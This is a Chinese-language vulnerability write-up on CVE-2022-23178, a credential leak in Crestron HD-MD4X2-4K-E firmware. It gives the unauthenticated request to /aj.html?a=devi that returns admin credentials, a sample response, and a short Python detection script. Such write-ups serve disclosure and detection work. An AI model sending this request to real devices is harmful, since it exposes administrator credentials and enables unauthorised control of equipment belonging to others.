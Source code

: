 # Crestron HD-MD4X2-4K-E 1.0.0.2159 设备凭证泄露漏洞（CVE-2022-23178）

## 漏洞简介
Crestron HD-MD4X2-4K-E 1.0.0.2159 设备存在凭证泄露漏洞，攻击者可通过未授权访问 `aj.html` 接口，直接获取用于登录 Web 管理界面的用户名和密码。

## 影响范围
- 受影响产品：Crestron HD-MD4X2-4K-E（固件 1.0.0.2159）
- CPE: `cpe:2.3:o:crestron:hd-md4x2-4k-e_firmware:1.0.0.2159:*:*:*:*:*:*:*`

## 漏洞原理
Web 管理接口 `aj.html` 未做访问控制，攻击者可直接访问并获取包含 `uname` 和 `upassword` 字段的 JSON 数据，导致敏感凭证泄露。

## 利用方式与攻击流程
1. 攻击者无需认证，直接访问设备的 `/aj.html?a=devi` 接口。
2. 响应返回包含用户名和密码的 JSON 数据。
3. 攻击者据此可登录设备，进行未授权操作。

## 探测原理与流程
### 请求包示例
```http
GET /aj.html?a=devi HTTP/1.1
Host: target.com
```

### 响应示例
```json
HTTP/1.1 200 OK
Content-Type: application/json

{
  "uname": "admin",
  "upassword": "admin123"
}
```

### 判定逻辑
- 响应状态码为 200。
- 响应体中包含 `"uname":` 和 `"upassword":` 字段。

### 伪代码
```python
resp = requests.get('http://target.com/aj.html?a=devi')
if resp.status_code == 200 and all(x in resp.text for x in ['"uname":', '"upassword":']):
    print('存在凭证泄露漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[直接访问 /aj.html?a=devi]
    B --> C[检查响应内容]
    C --> D{是否包含 uname 和 upassword?}
    D -- 否 --> E[不存在漏洞]
    D -- 是 --> F[存在凭证泄露漏洞]
```

## 参考链接
- [RedTeam Pentesting 公告](https://www.redteam-pentesting.de/en/advisories/rt-sa-2021-009/-credential-disclosure-in-web-interface-of-crestron-device)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2022-23178)
- [Crestron 官方产品页](https://de.crestron.com/Products/Video/HDMI-Solutions/HDMI-Switchers/HD-MD4X2-4K-E)
- [Awesome-POC](https://github.com/Threekiii/Awesome-POC) 